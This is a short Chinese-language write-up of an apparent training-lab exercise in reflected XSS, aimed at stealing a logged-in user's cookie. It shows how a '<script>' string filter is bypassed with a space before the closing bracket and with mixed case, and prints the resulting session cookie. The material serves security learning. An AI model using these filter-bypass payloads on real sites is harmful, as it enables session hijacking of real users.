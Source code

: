# Reflected XSS

>Objective 
> One way or another, steal the cookie of a logged in user.

### 觀察

看 source 的話會發現他只有 replace `<script>` ，也就是說只要避開完整的字串就行了🤔

### 試著將字串拆開

經過幾次嘗試後，試著將 tag 結尾前的字串拆開空出一格，會發現這樣做下面的參考連結也都消失了
```
<script >alert(1)
```

### Done
看起瀏覽器一樣會認為這是合法的 script tag
```jsx
<script >alert(document.cookie)</script>
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/f33cae9f-7615-48ee-a8d5-0c53dd922f0a/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220216%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220216T143428Z&X-Amz-Expires=86400&X-Amz-Signature=bfc5a9db0108ec1cda7b4c5fe0d3f3a1e09d15be6597f8ec8c1b8e3ce634907b&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=ov64qqshkod7693old2kdk59e3; security=medium
```
### memo

參考提示後，才發現大小寫也要考慮進去 XD

```
<sCript>alert(1)</sCript>
```
